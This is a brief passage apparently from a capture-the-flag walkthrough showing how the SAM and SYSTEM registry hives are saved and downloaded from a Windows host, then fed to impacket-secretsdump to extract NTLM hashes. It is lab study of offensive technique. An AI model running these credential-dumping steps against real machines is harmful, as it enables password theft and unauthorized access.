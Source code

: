 `reg save hklm\system temp\system`

![alt text](../assets/imgs/cicada/image-45.png)

Then we can download the files:

`cd temp`

`download sam`

![alt text](../assets/imgs/cicada/image-44.png)

`download system`

![alt text](../assets/imgs/cicada/image-46.png)

We can then use `impacket-secretsdump` to retrieve the `NTLM` hashes.

![alt text](../assets/imgs/cicada/image-48.png)
